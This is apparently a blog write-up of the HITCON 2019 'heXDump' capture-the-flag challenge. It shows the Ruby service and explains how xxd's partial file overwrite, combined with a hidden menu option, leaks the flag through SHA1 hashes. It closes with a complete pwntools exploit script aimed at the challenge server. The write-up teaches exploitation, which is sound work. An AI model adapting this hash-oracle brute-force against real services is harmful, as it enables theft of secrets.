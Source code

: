 ```yaml
---
layout: post
title: "HITCON 2019 / heXDump"
permalink: /hitcon-2019-hexdump
---
```


In this challenge, we are given the following ruby script:

```ruby
#!/usr/bin/env ruby
# encoding: ascii-8bit
# frozen_string_literal: true
 
 
require 'English'
require 'fileutils'
require 'securerandom'
 
 
FLAG_PATH = File.join(ENV['HOME'], 'flag')
DEFAULT_MODE = "sha1sum %s | awk '{ print $1 }'"
 
 
def setup
  STDOUT.sync = 0
  STDIN.sync = 0
  @mode = DEFAULT_MODE
  @file = '/tmp/' + SecureRandom.hex
  FileUtils.touch(@file)
  @key = output("sha256sum #{FLAG_PATH} | awk '{ print $1 }'").strip
  raise if @key.size != 32 * 2
end
 
 
def menu
  <<~MENU
    1) write
    2) read
    3) change output mode
    0) quit
  MENU
end
 
 
def output(cmd)
  IO.popen(cmd, &:gets)
end
 
 
def write
  puts 'Data? (In hex format)'
  data = gets
  return false unless data && !data.empty? && data.size < 0x1000
 
 
  IO.popen("xxd -r -ps - #{@file}", 'r+') do |f|
    f.puts data
    f.close_write
  end
  return false unless $CHILD_STATUS.success?
 
 
  true
end
 
 
def read
  unless File.exist?(@file)
    puts 'Write something first plz.'
    return true
  end
 
 
  puts output(format(@mode, @file))
  true
end
 
 
def mode_menu
  <<~MODE
    Which mode?
    - SHA1
    - MD5
    - AES
  MODE
end
 
 
def change_mode
  puts mode_menu
  @mode = case gets.strip.downcase
          when 'sha1' then "sha1sum %s | awk '{ print $1 }'"
          when 'md5' then "md5sum %s | awk '{ print $1 }'"
          when 'aes' then "openssl enc -aes-256-ecb -in %s -K #{@key} | xxd -ps"
          else DEFAULT_MODE
          end
end
 
 
def secret
  FileUtils.cp(FLAG_PATH, @file)
  true
end
 
 
def main_loop
  puts menu
  case gets.to_i
  when 1 then write
  when 2 then read
  when 3 then change_mode
  when 1337 then secret
  else false
  end
end
 
 
setup
begin
  loop while main_loop
  puts 'See ya!'
ensure
  FileUtils.rm_f(@file)
end
```

`write` allows us to write to the temporary file created and `read` prints out the content of the file as md5/sha1 hashed or aes256 encrypted using the sha256 hash of the flag as the key.

There is also `secret` which is not included in the menu. It simply copies the flag into our temporary file.

`write` uses `xxd` to convert hexadecimal string to bytes. However, this operation overwrites the file from the start of it instead of overwriting the whole file.

```bash
$ printf '414243444546' | xxd -r -ps - test && cat test
ABCDEF
$ printf '6162' | xxd -r -ps - test && cat test
abCDEF
```

We can use this to brute force the flag one character at a time.

In order to find the length of the flag, we will copy the flag into the file first, Then, we will overwrite its characters one by one until, the hash of the file matches the hash of the characters we have sent so far.

After finding the length of the flag, we will simply overwrite all characters of it except the last one and read its hash. Then, we will just brute force that character and move on to the next character from the end of the string. We will repeat this until we get all the characters.

Here is the full script:

```python
#!/usr/bin/env python
#-*- coding: utf-8 -*-
from hashlib import sha1
from pwn import *
from string import printable
context.log_level = 'error'
 
 
HOST = '13.113.205.160'
PORT = 21700
 
 
def choose(r, option):
    r.recvuntil('quit\n')
    r.sendline(str(option))
 
 
def write(r, data):
    choose(r, 1)
    r.recvline()
    r.sendline(data.encode('hex'))
 
 
def read(r):
    choose(r, 2)
    return r.recvline().rstrip()
 
 
def secret(r):
    choose(r, 1337)
 
 
def find_length():
    for length in xrange(1, 100):
        s = 'A' * length
        with remote(HOST, PORT) as r:
            secret(r)
            write(r, s)
            if read(r) == sha1(s).hexdigest():
                return length
    raise Exception('Could not find the length!')
 
 
def find_char(flag, i):
    with remote(HOST, PORT) as r:
        secret(r)
        write(r, 'A' * (i - 1))
        sha1_hash = read(r)
    for c in printable:
        s = 'A' * (i - 1) + c + flag
        if sha1_hash == sha1(s).hexdigest():
            return c
    raise Exception('Could not find char #{}!'.format(i))
 
 
def main():
    length = find_length()
    print 'Length: {}'.format(length)
    flag = ''
    for i in xrange(length, 0, -1):
        flag = find_char(flag, i) + flag
    print 'Flag: {}'.format(flag)
 
 
if __name__ == '__main__':
    main()
```
